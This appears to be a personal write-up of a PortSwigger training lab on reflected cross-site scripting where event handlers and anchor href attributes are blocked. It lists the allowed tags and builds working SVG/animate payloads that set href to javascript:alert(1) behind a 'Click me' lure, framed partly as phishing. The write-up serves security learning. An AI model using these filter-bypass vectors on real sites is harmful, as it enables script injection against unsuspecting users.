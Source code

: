 ```yaml
---
title: LAB 0.13
aliases:
  - LAB 0.13
tags:
  - XSS
  - Labs
  - Reflected
  - Expert
description: "Lab: Reflected XSS with event handlers and href attributes blocked"
---
```


# Lab: Reflected XSS with event handlers and `href` attributes blocked
---
[LAB](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)

This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked.

To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the `alert` function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

`<a href="">Click me</a>`

---

## Step 1: Identifying Valid Tags

The first step is to identify which HTML tags are allowed. Using an Burp Suite or manual testing as we have done in [[LAB 0.11#Step 2 Identify Allowed Tags]], you can find a list of valid tags. In this lab, these tags were allowed:

- `<a>`
- `<animate>`
- `<image>`
- `<svg>`
- `<title>`

---

## Step 2: Crafting a Payload

We need to exploit the allowed tags to execute a JavaScript alert. Through experimentation, the following payloads were successful:

### Basic Payloads

1. `<a id="x">Click Me</a>`
2. `<a id="x" tabindex="0">Click Me</a>`

### Using `<svg>` and `<animate>`

Combining `<svg>` and `<animate>`, we crafted this payload:

```html
<svg>
  <rect width="7" height="7" fill="green">
    <animate attributeType="application/javascript" attributeName="alert(1)" from="1" to="0" dur="4s" repeatCount="indefinite" />
  </rect>
</svg>
```

![[images/Pasted image 20250126165118.png]] 

While valid, this method required refinement to make it more practical for phishing users.

---

## Step 3: Combining Tags for a Clickable XSS Vector

To craft a better attack vector:

1. Chain `<svg>`, `<a>`, and `<animate>` together.
2. Use `attributeName="href"` and set its value to `javascript:alert(1)`.
3. Add a `<text>` element for user interaction.

The refined payload:

```html
<svg>
  <a>
    <animate attributeName="href" values="javascript:alert(1)" />
    <text x="20" y="20">Click me</text>
  </a>
</svg>
```

This payload uses the `href` attribute of `<a>` for the JavaScript alert and a clickable label to trick the user.

---

## Step 4: Testing the Payload

Paste the encoded payload into the lab’s search parameter and trigger it by interacting with the "Click me" link. The alert should execute successfully, solving the lab.

![[images/Pasted image 20250126165309.png]]

---
#### Congratulations!

You’ve successfully exploited the vulnerability and solved the lab!
